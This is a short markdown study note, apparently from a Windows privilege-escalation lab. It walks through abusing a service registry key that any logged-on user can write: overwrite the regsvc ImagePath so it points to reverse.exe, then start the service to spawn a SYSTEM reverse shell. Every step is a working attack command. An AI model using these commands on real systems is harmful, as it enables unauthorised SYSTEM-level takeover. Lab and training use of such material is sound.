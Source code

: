 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
  - RegistryVulnerabilitiesAndTokens
---
```


1. Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc regsvc
```

2. Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

3. Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start regsvc
```